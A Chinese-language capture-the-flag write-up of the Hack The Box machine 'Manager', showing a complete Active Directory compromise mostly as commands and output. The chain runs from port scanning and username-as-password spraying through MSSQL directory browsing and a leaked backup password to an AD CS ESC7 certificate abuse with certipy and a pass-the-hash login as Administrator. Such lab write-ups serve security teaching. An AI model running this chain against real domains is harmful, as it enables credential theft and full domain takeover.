

## 資訊蒐集 Reconnaissance

```bash
mozix@pwn$ nmap -p- -Pn -nv -T4 10.129.15.109            
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-29 16:48 CST
Initiating SYN Stealth Scan at 16:48
Scanning 10.129.15.109 [65535 ports]
Nmap scan report for 10.129.15.109
Host is up (0.080s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49688/tcp open  unknown
49689/tcp open  unknown
49693/tcp open  unknown
49723/tcp open  unknown
49790/tcp open  unknown
58371/tcp open  unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 182.81 seconds
           Raw packets sent: 131172 (5.772MB) | Rcvd: 146 (6.392KB)

mozix@pwn$ nmap 10.129.15.109 -sSVC -p 53,80,88,135,139,389,445,464,593,1433,3268,3269,5985,9389,49667,49688,49689,49693,49723,49790,58371
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-29 17:00 CST
Nmap scan report for manager.htb (10.129.15.109)
Host is up (0.066s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-29 16:00:38Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-07-29T16:02:09+00:00; +6h59m52s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.15.109:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-29T15:40:19
|_Not valid after:  2056-07-29T15:40:19
| ms-sql-info: 
|   10.129.15.109:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-07-29T16:02:09+00:00; +6h59m52s from scanner time.
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-07-29T16:02:09+00:00; +6h59m52s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
3269/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-07-29T16:02:08+00:00; +6h59m52s from scanner time.
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
49667/tcp open     msrpc         Microsoft Windows RPC
49688/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49689/tcp open     msrpc         Microsoft Windows RPC
49693/tcp open     msrpc         Microsoft Windows RPC
49723/tcp open     msrpc         Microsoft Windows RPC
49790/tcp open     msrpc         Microsoft Windows RPC
58371/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m51s, deviation: 0s, median: 6h59m51s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-07-29T16:01:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.31 seconds
```

> [!note] 小提示
> 取得 open port 的實用指令：`cat nmap | awk -F '/' '/^[0-9]+/ {print $1}' | paste -sd,`

整理一下有用的資訊
- Windows Server
- Host Name 是 dc01，Domain Name 是 manager.htb
- 開放 smb、ldap、kerberus、mssql、winrm

### 掃看看有沒有子網域

```bash
mozix@pwn$  ffuf -u http://10.129.15.109 -H "Host: FUZZ.manage.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.15.109
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.manage.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 420 req/sec :: Duration: [0:00:48] :: Errors: 0 ::
```

看起來沒什麼幫助，直接新增目前已知的 Domain Name 到 `/etc/hosts`：

```bash
10.129.15.109 manager.htb dc01.manager.htb
```

### SMB

smb 雖然可以匿名登入，但並沒有辦法取得更多資訊；`rpcclient` 似乎也沒甚麼用，直接用 `lookupsid` 枚舉每個 SID 爆看看：


```bash
mozix@pwn$ impacket-lookupsid anonymous@manager.htb                         
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: MANAGER\Administrator (SidTypeUser)
501: MANAGER\Guest (SidTypeUser)
502: MANAGER\krbtgt (SidTypeUser)
512: MANAGER\Domain Admins (SidTypeGroup)
513: MANAGER\Domain Users (SidTypeGroup)
514: MANAGER\Domain Guests (SidTypeGroup)
515: MANAGER\Domain Computers (SidTypeGroup)
516: MANAGER\Domain Controllers (SidTypeGroup)
517: MANAGER\Cert Publishers (SidTypeAlias)
518: MANAGER\Schema Admins (SidTypeGroup)
519: MANAGER\Enterprise Admins (SidTypeGroup)
520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
525: MANAGER\Protected Users (SidTypeGroup)
526: MANAGER\Key Admins (SidTypeGroup)
527: MANAGER\Enterprise Key Admins (SidTypeGroup)
553: MANAGER\RAS and IAS Servers (SidTypeAlias)
571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
1000: MANAGER\DC01$ (SidTypeUser)
1101: MANAGER\DnsAdmins (SidTypeAlias)
1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
1113: MANAGER\Zhong (SidTypeUser)
1114: MANAGER\Cheng (SidTypeUser)
1115: MANAGER\Ryan (SidTypeUser)
1116: MANAGER\Raven (SidTypeUser)
1117: MANAGER\JinWoo (SidTypeUser)
1118: MANAGER\ChinHae (SidTypeUser)
1119: MANAGER\Operator (SidTypeUser)
```

把目前得到的 user 紀錄一下，可以使用 `| grep SidTypeUser | cut -d ' ' -f2 | cut -d '\' -f2` 來快速取得所有 user。

### LDAP

```bash
# 確認 base domain name
mozix@pwn$ ldapsearch -H ldap://dc01.manager.htb -x -s base namingcontexts
# 查進一步資訊
mozix@pwn$ ldapsearch -H ldap://dc01.manager.htb -x -b "DC=manager,DC=htb"
```

### Kerberos

```bash
mozix@pwn$ kerbrute userenum -d manager.htb /usr/share/seclists/Usernames/cirt-default-usernames.txt  --dc 10.129.15.109

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 07/29/26 - Ronnie Flathers @ropnop

2026/07/29 17:17:46 >  Using KDC(s):
2026/07/29 17:17:46 >   10.129.15.109:88

2026/07/29 17:17:47 >  [+] VALID USERNAME:       ADMINISTRATOR@manager.htb
2026/07/29 17:17:47 >  [+] VALID USERNAME:       Administrator@manager.htb
2026/07/29 17:17:47 >  [+] VALID USERNAME:       GUEST@manager.htb
2026/07/29 17:17:47 >  [+] VALID USERNAME:       Guest@manager.htb
2026/07/29 17:17:48 >  [+] VALID USERNAME:       OPERATOR@manager.htb
2026/07/29 17:17:48 >  [+] VALID USERNAME:       Operator@manager.htb
2026/07/29 17:17:50 >  [+] VALID USERNAME:       administrator@manager.htb
2026/07/29 17:17:50 >  [+] VALID USERNAME:       guest@manager.htb
2026/07/29 17:17:51 >  [+] VALID USERNAME:       operator@manager.htb
2026/07/29 17:17:52 >  Done! Tested 828 usernames (9 valid) in 5.825 seconds

```

看起來跟 lookupsid 的結果差不多。

## 初步滲透 Initial Access

這邊有個神奇的構想，把 user 整份複製當作 pass 進行爆破：

```bash
mozix@pwn$ nxc smb manager.htb -u user -p pass --continue-on-success --no-bruteforce
SMB         10.129.15.109    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.15.109    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.129.15.109    445    DC01             [+] manager.htb\operator:operator
```

取得 operator:operator 帳號密碼，開始到處亂登，不過看起來沒有什麼效果。

```bash
nxc mssql 10.129.15.109 -u operator -p operator       
MSSQL       10.129.15.109   1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb) (EncryptionReq:False)
MSSQL       10.129.15.109   1433   DC01             [+] manager.htb\operator:operator 
MSSQL       10.129.15.109   1433   DC01             [-] manager.htb\operator:operator 
```

這邊下一步考慮進一步作 ldap 查詢，確認有沒有有用的訊息：

```bash
mozix@pwn$ ldapdomaindump -u management.htb\\operator -p 'operator' 10.129.15.109 -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

mozix@pwn$ tree ldap               
ldap
├── domain_computers_by_os.html
├── domain_computers.grep
├── domain_computers.html
├── domain_computers.json
├── domain_groups.grep
├── domain_groups.html
├── domain_groups.json
├── domain_policy.grep
├── domain_policy.html
├── domain_policy.json
├── domain_trusts.grep
├── domain_trusts.html
├── domain_trusts.json
├── domain_users_by_group.html
├── domain_users.grep
├── domain_users.html
└── domain_users.json
```

可以在 `domain_users_by_group.html` 發現到使用者 `Raven` 有 Remote Management 權限。



### MSSQL

```bash
mozix@pwn$ impacket-mssqlclient operator:operator@10.129.15.109 -windows-auth
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```

可以檢視到資料庫內容，也可以查看指令

```bash
SQL (MANAGER\Operator  guest@master)> select name from master..sysdatabases;
name     
------   
master
tempdb
model
msdb


SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    download {from} {to}       - downloads file from the SQLServer host {from} to {to}
    show_query                 - show query
    mask_query                 - mask query


SQL (MANAGER\Operator  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1  
```

xp_cmdshell 權限不夠無法執行，但發現指令 xp_dirtree 可以查看 windows 上的路徑，這邊翻到了網站的跟目錄下有個 backup 檔案。

```bash
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1 
```

於是無情的把這個檔案給抓下來

```bash
mozix@pwn$ wget http://manager.htb/website-backup-27-07-23-old.zip
```

解壓縮之後發現裡面有 raven 的帳號密碼

```
mozix@pwn$ unzip website-backup-27-07-23-old.zip -d web_bak
cat * | grep -rain pass
```

取得帳號密碼 raven:R4v3nBe5tD3veloP3r!123

### WinRM

```bash
nxc winrm manager.htb -u raven -p R4v3nBe5tD3veloP3r!123
WINRM       10.129.15.109    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.129.15.109    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

接著就可以快樂的去 `\User\Raven\Desktop` 拿 token 了~

## 提權 Privilege Escalation

這邊先用 `Certipy-ad` 來找弱點，不出意外的給我們找到了 `ESC7` 的弱點。

```bash
certipy-ad find -vulnerable -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.15.109 -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'manager-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'manager-DC01-CA'
[*] Checking web enrollment for CA 'manager-DC01-CA' @ 'dc01.manager.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : MANAGER.HTB\Raven
                                          MANAGER.HTB\Authenticated Users
    [+] User ACL Principals             : MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
```

### ESC7

根據做功課的結果，ESC7 可以藉由更改 CA 核發的權限，讓自己能夠核發憑證，進而自己替自己核發 Administrator 的憑證，從而做到提權。ESC7 需要滿足以下兩者其中一個的條件：

- 擁有 Manage CA: 允許使用者修改 CA 全域設定，亦即可以新增自己成為憑證管理員。
- 擁有 Manage Certificates: 又稱 officer 權限，亦即允許使用者能夠核准自己想要申請的憑證。

攻擊流程大概是：

1. 利用 Manage CA 權限，將自己加入 Manage Certificates 中，成為能夠核發憑證的 officer
2. 使用預設 SubCA 模板請求核發憑證。
3. SubCA 預設會需要 CA 管理員人工審核，因此 [2] 的請求會進入 Pending 狀態。
4. 利用 officer 權限核發憑證。
5. 利用憑證幹走 NTLM Hash。

具體實現指令如下：

```bash
# 先把 raven 加入 officer 中
mozix@pwn$ certipy-ad ca -ca manager-DC01-CA -add-officer raven -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.15.109        
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'

# 以 SubCA 請求 administrator 憑證
# 最後錯誤很正常，因為憑證需要人工審核
# 可以觀察到憑證編號是 23
mozix@pwn$ certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.manager.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 23
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '23.key'
[*] Wrote private key to '23.key'
[-] Failed to request certificate

# 手動審核編號 23 憑證申請通過
mozix@pwn$ certipy-ad ca -ca manager-DC01-CA -issue-request 23 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.15.109 -target-ip 10.129.15.109 -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.129.15.109'
[+] DC IP: '10.129.15.109'
[+] DC Host: 'MANAGER.HTB'
[+] Target IP: '10.129.15.109'
[+] Remote Name: '10.129.15.109'
[+] Domain: 'MANAGER.HTB'
[+] Username: 'RAVEN'
[+] Trying to get DCOM connection for: '10.129.15.109'
[*] Successfully issued certificate request ID 23

# 請求憑證編號 23
mozix@pwn$ certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 23 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.manager.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Retrieving certificate with ID 23
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '23.key'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

# 同步一下時間
mozix@pwn$ sudo ntpdate -u 10.129.15.109
[sudo] password for mozix: 
2026-07-31 00:01:40.400933 (+0800) +25193.725658 +/- 0.032485 10.129.15.109 s1 no-leap
CLOCK: time stepped by 25193.725658

# 利用憑證幹走 NTLM Hash
mozix@pwn$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.15.109
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@manager.htb'
[*] Using principal: 'administrator@manager.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

# 快樂 winrm pwn
mozix@pwn$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```